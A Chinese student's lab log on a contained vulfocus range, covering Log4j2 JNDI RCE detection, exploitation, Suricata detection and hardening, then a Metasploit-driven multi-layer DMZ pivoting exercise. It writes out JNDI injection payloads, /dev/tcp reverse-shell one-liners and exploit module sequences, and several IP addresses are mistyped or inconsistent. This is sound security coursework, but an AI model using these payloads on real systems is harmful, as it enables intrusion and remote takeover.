







# 个人实践日志

---
实验环境 :
- 主机 : Windows11 23H2
- 虚拟机平台 : VMware Workstation Pro 17.5
- kali@attacker :  2024.2
- kali@victim : 2024.2

kali 网络配置

- hostname: `attacker`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.23.128`
- - eth1: Host-Only
- - - ip: `192.168.38.128`
- host: `kaliattacker`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.23.129`
- - eth1: Host-Only
- - - ip: `192.168.38.129`

---

### 环境搭建一

#### vulfocus

- 克隆[定制的 Web 漏洞攻防训练环境](https://github.com/c4pr1c3/ctf-games)


#### 安装docker

```bash

sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}

# 切换到 root 用户
sudo su -

# 使用国内 Docker Hub 镜像源（可选步骤）
# 国内 Docker Hub 镜像源可用性随时可能变化，请自测可用性
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": [
    "https://docker.mirrors.sjtug.sjtu.edu.cn/",
    "https://mirror.baidubce.com/",
    "https://dockerproxy.com/"
  ]
}
EOF

# 重启 docker 守护进程
systemctl restart docker

# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```


- 进入vulfocus目录下运脚本
```bash
bash start.sh
```
- 选择对外提供访问`vulfocus-web` 的 IP

  - 选任何一块网卡ip都可以，我选择host-only

- 访问ip网页

  - 用户名密码：admin\admin


### log4j2

- 在vulfocus下载并启动log4j2漏洞环境


#### 漏洞存在性检测

- 进行源代码审计
```bash
#进入docker容器中，找到系统中预置的shell并利用找到demo.jar
cat /etc/shells
docker exec -it {container_name} /bin/bash

# docker exec -it {container_name} sh
# 如果已经预设则可以直接进入shell
```


- 将代码文件进行java反编译分析


```java
package BOOT-INF.classes.com.example.log4j2_rce;

import java.io.IOException;
import javax.servlet.http.HttpServletResponse;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RestController;

@SpringBootApplication
@RestController
public class Log4j2RceApplication {
  private static final Logger logger = LogManager.getLogger(com.example.log4j2_rce.Log4j2RceApplication.class);
  
  public static void main(String[] args) {
    SpringApplication.run(com.example.log4j2_rce.Log4j2RceApplication.class, args);
  }
  
  @GetMapping({"", "/"})
  public String aaa(HttpServletResponse response) throws IOException {
    response.getOutputStream().write("<h2>Struts Problem Report</h2><br/><a href=\"/hello?payload=111\">我哈哈哈哈</a>".getBytes());
    return "<h2>Struts Problem Report</h2><br/><a href=\"/hello?payload=111\">我哈哈哈哈</a>";
  }
  
  @GetMapping({"/hello"})
  @ResponseBody
  public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
  }
}
```

分析代码  

根据[教学视频](https://www.bilibili.com/video/BV1p3411x7da/?p=18&spm_id_from=pageDriver&vd_source=29be36c5871bf765d00681706f529585)中所讲代码中出现漏洞问题是在`logger.error,logger.info`函数中，但并没讲述原因


我进行跟进了解此漏洞原理发现
```java
   System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
```
此代码也有问题

这两行代码分别设置了`LDAP`和`RMI`的`JNDI`配置，允许从不受信任的URL加载代码库

而Log4j2在处理日志消息时它会扫描消息中的` ${} `语法来识别 `Lookups` 标记，根据 `Lookups` 标记的类型，调用相应的解析器来获取实际值
```bash
#Lookups 是一种功能，允许在日志消息中动态地插入特定类型的数据。它们通过`${}`语法嵌入在日志消息中，可以在运行时被替换为相应的值或结果。
```
这里就用到`JNDI lookups`

Log4j2在记录日志时会解析`${}`中的内容。在这种情况下，它会尝试通过`JNDI`查找ldap后的内容

如果查找内容是攻击者控制的LDAP服务器，它可以响应一个包含恶意代码的对象。

应用程序加载并执行从恶意服务器返回的代码，从而导致远程代码执行（RCE）

而`logger.error/info`中所包含的`payload`可能就是攻击者控制的服务器地址

所以才产生了漏洞

#### 漏洞可利用性检测

1. 访问 [dnslog.cn](http://dnslog.cn/) 获取二级域名 `v77yc9.dnslog.cn`


- 模板变量代码`${jndi:ldap://v77yc9.dnslog.cn/exp}`

2. 编码并发送 url

根据靶场容器ip和获取的二级域名，编码 url：

```bash
curl "http://192.168.38.129:50239/hello?payload=${jndi:ldap://v77yc9.dnslog.cn/exp}"

#编码 `${jndi:ldap://xco6xt.dnslog.cn/lihan3238}` 
# `%24%7Bjndi%3Aldap%3A%2F%2Fv77yc9.dnslog.cn%2Fexp%7D`：

curl "http://1192.168.38.129:50239/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fv77yc9.dnslog.cn%2Fexp%7D"
```


看到 dnslog.cn 页面有解析记录，说明漏洞可利用。

. 自动化工具验证 - [**log4j-scan**](https://github.com/fullhunt/log4j-scan)

```bash
# 下载 log4j-scan
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 手动修改代码 log4j-scan.py 在 post_data_parameters 中添加 payload 参数

# 无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 扫描靶场容器
python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello --dns-callback-provider dnslog.cn
```


- 因为访问请求方法只支持GET，所以需要改 GET 请求的参数，将键 `v` 改为 `payload`


- 成功扫描到漏洞


#### 漏洞靶标攻防

1.测试攻击机 Shell 连接靶标容器

- 攻击机上监听端口，等待靶标容器连接

```bash
nc -l -p 7777
```

靶标容器中执行反弹 Shell 命令

```bash
# 进入靶标容器
sudo docker exec -it <container_name> /bin/bash

# 执行反弹 Shell 命令
bash -i >& /dev/tcp/192.168.38.128/7777 0>&1
# 启动一个交互式 Bash shell，并将其输入( 0>&1 重定向输入到输出)和输出( >& 重定向标准错误输出到标准输出)都通过TCP连接重定向到 192.168.4.130 的 7777 端口。
```


- 反弹 Shell 实战

`kaliattacker`安装 `JNDI注入` 利用工具 [JNDIExploit](https://github.com/Mr-xn/JNDIExploit-1)

解压后检查校验和无误：
  
```bash
└─$ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
```

借助 `JNDIExploit` 工具，反弹 Shell：

```bash
# 反弹 Shell 命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1"
# Base64 编码
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
# 拼接 URL
TARGET_URL="http://192.168.182.129:43381/hello" 
FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" 
# URL 编码
URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` 
# 发送 GET 请求
curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

# 一行命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.38.128/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.23.129:57589/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.38.128:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"
```





- 成功执行漏洞并找到flag


#### 漏洞流量检测

 面向网络流量的深度包检测 - jasonish/suricata:6.0.4

```bash

# 启动靶机镜像
docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest

# kalitartgetserver
# 启动 suricata 检测容器
# 此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:latest

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
# docker restart suricata

# 监视 suricata 日志
docker exec -it suricata tail -f /var/log/suricata/fast.log
```


#### 漏洞利用防御与加固


这张图表展示了Log4j JNDI攻击的原理和防御方法：
1. **攻击者发起请求**
攻击者在 HTTP 请求的头字段（例如 User-Agent）中插入一个包含 JNDI 查找的字符例：`User-Agent: ${jndi:ldap://evil.xa/x}`
*防御措施：使用 WAF（Web应用防火墙）拦截此类恶意请求。*

2. **易受攻击的服务器接收请求**
易受攻击的服务器接收到请求，并将包含 JNDI 查找的字符串传递给 Log4j 进行日志记录。
*防御措施：禁用 Log4j 或更新 Log4j 到修复版本。*

3. **Log4j 处理请求**
log4j 解释该字符串，并尝试查询恶意的 LDAP 服务器以获取更多信息。
*防御措施：禁用JNDI查找功能。*

4. **查询恶意 LDAP 服务器**
Log4j 向恶意 LDAP 服务器发送查询请求，获取恶意的 Java 类。
*防御措施：确保 LDAP 查询指向可信的内部服务器或禁用远程代码库。*

5. **Java 反序列化恶意代码**
恶意 LDAP 服务器响应目录信息，包含恶意 Java 类的位置。Java 反序列化该类并执行其中的恶意代码。
*防御措施：禁用远程代码库功能，确保反序列化过程的安全。*

具体防护措施：

- 使用Web应用防火墙（WAF）：在请求到达服务器前，使用WAF来过滤和阻止恶意请求。
- 禁用Log4j或更新Log4j：将Log4j更新至修复版本，或者禁用Log4j日志记录。
- 禁用JNDI查找：配置Log4j以禁用JNDI查找功能，防止它解析和执行恶意代码。
- 禁用远程代码库：通过配置，禁用从远程代码库加载类，确保Java反序列化过程的安全。


#### 问题
 
- 在进行dns解析中第一次发现vulfoucs版本关系需要`get`请求，所以原`post`请求无法使用


在后续反弹shell实战又出现了 `POST` 请求不允许的情况，参考同学解决办法修改为GET命令



- 在进行自动化验证时，工具利用`dnslog`网站时url为`www.dnslog.cn`，此网站无法正常访问导致报错


主机进行物理访问时发现将url改为`dnslog.cn`便可正常访问


#### 参考

[李多扬同学日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/3_DoubleJ/%E4%B8%AA%E4%BA%BA%E5%AE%9E%E9%AA%8C%E6%97%A5%E5%BF%97.md)

[课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%B5%81%E9%87%8F%E6%A3%80%E6%B5%8B%E5%AE%9E%E6%88%98)

[从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)

[Java反序列化过程中 RMI JRMP 以及JNDI多种利用方式详解](https://blog.topsec.com.cn/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e8%bf%87%e7%a8%8b%e4%b8%ad-rmi-jrmp-%e4%bb%a5%e5%8f%8ajndi%e5%a4%9a%e7%a7%8d%e5%88%a9%e7%94%a8%e6%96%b9%e5%bc%8f%e8%af%a6%e8%a7%a3/)

[Log4j2 漏洞详解 (CVE-2021-44228)](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)

### 跨网段渗透

#### DMZ 场景初始化

1. 启动 DMZ 场景


2. 捕获指定容器的上下行流量

```bash
# kalitargetserver
# 在 tmux 中启动 tcpdump
sudo docker ps
# 将 container_id 替换为指定容器(victim-1)的 ID
container_id="56410ce8fa18"
# 指定容器的上下行流量
sudo docker run --rm --net=container:${container_id} -v ${PWD}/tcpdump/${container_id}:/tcpdump kaazing/tcpdump
# Ctrl + B, D 退出 tmux
```


3.`metasploit` 环境配置

- kaliattacker

```bash
# metasploit 基础配置
# 更新 metasploit
sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole

# 确认已连接 pgsql
db_status

# 建立工作区
workspace -a demo_lihan

# 查看工作区
workspace -l
```


#### 攻击靶标1-公开在外网的 `victim-1`

```bash
# kaliattacker

# 已知 victim-1 的 IP 和开放端口，扫描端口上进行的服务的信息
## -n 不进行 DNS 解析 -A 详细信息
db_nmap -p 60279 192.168.182.129 -n -A

# 根据扫描到的信息和预知的漏洞信息 `struts2` `S2-059` 搜索选择
search S2-059 type:exploit
search struts2 type:exploit
```


```bash
# 查看模块信息
info [exploit/multi/http/struts2_multi_eval_ognl 的序号]
```



```bash
# 选择漏洞模块
use [exploit/multi/http/struts2_multi_eval_ognl 的序号]


# 查看参数列表 payloads负载
show options
show payloads
```




```bash
# 设置合适的 参数
## 靶机 IP
set RHOSTS 192.168.182.129
## 靶机端口
set RPORT 60279
```


```bash
# 设置合适的 payload
set payload payload/cmd/unix/reverse_bash

# 查看设置的参数
show options

# 运行 漏洞利用程序
run -j
```

```bash
# 查看攻击成功后反弹 Shell 获取的会话
sessions -l

# 进入会话
sessions -i [会话 ID]
# 查看反弹 Shell 的效果（无命令行交互提示）
cd ../
search -f *flag*

# 找到 flag
##/tmp/flag{-}
## Ctrl + Z 挂起会话
```


#### 攻击靶标2-第一层内网的 `victim-2-*`

1. 建立立足点，发现靶标 `victim-2-<2-4>`

```bash
# upgrade cmdshell to meterpreter shell
# 也可以直接 sessions -u 1
```


```bash

#手动升级
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
show options
set lhost 192.168.56.214
set session 1
run -j
sessions -l
# Active sessions
# ===============
# 
#   Id  Name  Type                   Information          Connection
#   --  ----  ----                   -----------          ----------
#   1         shell cmd/unix                              192.168.56.214:4444 -> 192.168.56.216:60690  (192.168.56.216)
#   2         meterpreter x86/linux  root @ 192.170.84.5  192.168.56.214:4433 -> 192.168.56.216:39756  (192.168.56.216)
```

```bash
# 进入 meterpreter 会话 2
sessions -i 2

# setup pivot: run autoroute
# 查看网卡列表
ipconfig

# 查看路由表
route


# 查看 ARP 表
arp
```



```bash
# 端口扫描保存到数据库
db_nmap -p 65202,80,22 192.168.38.129 -A -T4 -n
```


```bash
# 进入容器查看网段
# 根据发现的内网信息，创建路由
run autoroute -s 192.170.84.0/24
# 检查 Pivot 路由是否已创建成功
run autoroute -p
```




```bash
# 使用 portscan 工具扫描发现内网主机
search portscan
use auxiliary/scanner/portscan/tcp
show options
```


```bash
# 根据子网掩码推导
set RHOSTS 192.170.84.2-254
# 根据「经验」
set rport 7001
# 根据「经验」
set threads 10
# 开始扫描
```


```bash
run -j
```


```bash
# 等到扫描结果 100%
# 查看主机存活情况
hosts

# 查看发现的服务列表
services
# Services
# ========
# 
# host            port   proto  name           state   info
# ----            ----   -----  ----           -----   ----
# 192.168.56.216  29551  tcp    http           open    Jetty 9.4.31.v20200723
# 192.170.84.2    7001   tcp                   open
# 192.170.84.3    7001   tcp                   open
# 192.170.84.4    7001   tcp                   open
# 192.170.84.5    7001   tcp                   open
```


```bash
# setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
```

```bash
# 查看代理信息
show options
```


```bash
# 运行
run -j
```


```bash
# 新开一个 ssh 会话窗口
# 检查 1080 端口服务开放情况
sudo lsof -i tcp:1080 -l -n -P
```


```bash
# 编辑 /etc/proxychains4.conf
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf
```


```bash
# 进行tcp扫描7001端口
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```


 显示端口开启


```bash
# 验证端口开启
# 回到 metasploit 会话窗口
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```


返回404

网络层能访问正常开启，应用层不存在。

2. 攻破靶标 `victim-2-<2-4>`


```bash
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP 
```


```bash
# 分别 run
run -j
```


```bash
# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```


攻击成功

#### 攻击靶标3-第二层内网的 `victim-3`

1.发现终点靶标
```bash
# 通过网卡、路由、ARP 发现新子网 192.169.85.0/24
sessions -c "ifconfig" -i 3,4,5
# 找到连接内网的靶机
```


```bash
# 将会话 5 升级为 meterpreter shell
sessions -u 5
# 新的 meterpreter shell 会话编号此处为 6
sessions -i 6
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.178.85.0/24
run autoroute -p
# Active Routing Table
# ====================
# 
#    Subnet             Netmask            Gateway
#    ------             -------            -------
#    192.169.85.0       255.255.255.0      Session 7
#    192.170.84.0       255.255.255.0      Session 2
# 通过 CTRL-Z 将当前会话放到后台继续执行
```


```bash
use scanner/portscan/tcp
set RHOSTS 192.178.85.2-254
# 预先知道的端口 80
set ports 80
# 或者
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.192.169.85.2-254
```


```bash
run -j
# 发现终点靶标 192.178.85.2 80(tcp)
```
2.攻击终点靶标
```bash
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```


成功拿到flag


#### 停止抓包
- 进入 vulfocus 所在虚拟机的 GUI 桌面，使用 Wireshark 打开捕获到的数据包
- 通过 scp 将捕获到的数据包拷贝到宿主机上使用 Wireshark 分析


#### 参考

[教学视频](https://www.bilibili.com/video/BV1p3411x7da/?p=28&spm_id_from=pageDriver&vd_source=29be36c5871bf765d00681706f529585)

[课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%81%9C%E6%AD%A2%E6%8A%93%E5%8C%85%E5%BC%80%E5%A7%8B%E5%88%86%E6%9E%90)

[同学的报告](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md)